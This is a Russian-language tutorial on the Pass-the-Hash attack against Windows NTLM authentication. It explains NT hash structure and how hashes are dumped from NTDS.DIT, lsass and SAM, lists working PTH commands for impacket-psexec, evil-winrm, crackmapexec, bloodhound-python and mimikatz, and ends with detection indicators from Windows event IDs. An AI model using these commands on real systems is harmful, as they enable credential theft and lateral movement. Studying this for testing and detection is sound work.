



> [!important]  
> Атака Pass The Hash позволяет злоумышленнику повторно использовать NT хэш для входа систему, избегая ввода пароля и используя протокол NTLM для авторизации, вместо базового Kerberos.  

# Что такое NT хэш и как его получить?

NTLM хэш (NTHash) представляет собой следующую цепочку преобразований:

Пароль пользователя —> UTF16-LE (LE - Little Endian) —> MD4

`test.local\pth-user:1114:aad3b435b51404eeaad3b435b51404ee:8c2cf560d8d8abef7f13348b6aef1450:::`

### Как видно, строка дампа состоит из 4х основных частей

1. Логин пользователя
2. Числовой идентификатор (UID)
3. LM хэш (устаревший вариант, который легко брутится)
4. NT хэш

  

### NT хэш получают одним из следующих способов

- Дамп NTDS.DIT
- Дамп lsass.exe
- Дамп SAM (дамп ветки реестра **HKEY_LOCAL_MACHINE\SAM** для локальных УЗ)

  

### Пример получения NT хэша, используя метод дампа NTDS

`crackmapexec smb 192.168.1.1 -u Администратор -p password --ntds`

В данном случае, важно учитывать наличие необходимых прав УЗ.

# Практика

Как было сказано, PTH позволяет войти в систему без пароля по протоколу NTLM.

Обычно, для этих целей используется PSexec из набора Impacket:

`impacket-psexec -dc-ip 192.168.1.1 pth-user@test.local -hashes` `aad3b435b51404eeaad3b435b51404ee:8c2cf560d8d8abef7f13348b6aef1450`

# Дополнительная информация

## Использование только NT хэша

На данный момент, LM хэш не является обязательным атрибутом для проведения атаки PTH. Как можно заметить, LM хэш для каждого пользователя из примера получения хэшей совпадает и начинается с `aad3b4…`. Такая особенность связана с хэшированием “пустого пароля”, поскольку в современных системах используется только NT хэш из-за слабой криптостойкости односторонней функции хэширования, и такая конструкция называется **“заглушкой”**. Именно поэтому, возможно использовать лишь NT хэш:

`impacket-psexec -dc-ip 192.168.1.1 pth-user@test.local -hashes` `:8c2cf560d8d8abef7f13348b6aef1450`

## Основные утилиты, представляющие функционал для PTH

- **psexec**
    - `impacket-psexec -dc-ip 192.168.1.1 pth-user@test.local -hashes` `:8c2cf560d8d8abef7f13348b6aef1450`
- **evil-winrm**
    - `evil-winrm -i 192.168.1.1 -u “TEST\pth-user” --hash` `8c2cf560d8d8abef7f13348b6aef1450`
- **crackmapexec**
    - `crackmapexec smb 192.168.1.1 -u pth.user -H` `8c2cf560d8d8abef7f13348b6aef1450`
- **bloodhound-python**
    - `bloodhound-python -u “pth-user” --hashes` `aad3b435b51404eeaad3b435b51404ee:8c2cf560d8d8abef7f13348b6aef1450` `-ns 192.168.1.1 -d test.local -c all`
- mimikatz.exe
    - `privilege::debug`
    - `sekurlsa::pth /user:pth-user /domain:test /ntlm:``8c2cf560d8d8abef7f13348b6aef1450` `/run:powershell.exe`
- **и т.д.**

## Меняется ли алгоритм аутентификации NTLM при PTH?

Нет, сам алгоритм никак не меняется, поскольку при легитимной аутентификации пароль в открытом виде не применяется, но берется его хэш.

При атаке PTH нам не нужно вычислять хэш пароля, поскольку он у нас и так уже есть.

# Профит

Как уже было сказано, злоумышленник может повторно использовать украденный NT хэш для аутентификации по протоколу NTLM, минуя явное указание пароля и аутентификацию Kerberos.

### Также можно

- получить TGT билет
- Сбрутить хэш и получить пароль

# Артефакты

==Основной проблемой атаки PTH для синей команды является сложность детекта для удаленно проведенной атаки.==

Обычно, неудачная попытка доступа к шаре при указании неверного пароля/NT хэша вызывает следующие индикаторы:

- **Logon Type 3 (Network)** - пользователь или компьютер входит в систему
- **4625** - ошибка входа в связи с неверным УД

Однако, такой расклад не доказывает попытку проведения атаки Pass-The-Hash в полной мере.

### Основными индикаторами локально проведенной атаки служат 3 фактора

1. **Logon Type 9 (New credentials)** - использование утилиты “runas” для запуска приложения
2. **4648** - Выполнена попытка входа в систему с явным указанием УД
3. **4624** - Вход в УЗ выполнен успешно

  

_Еще иногда к этому добавляется событие_

**4672** - Специальные привилегии, присвоенные новому входу в систему

По сути, это событие возникает при учете входа в УЗ, обладающей административными правами.
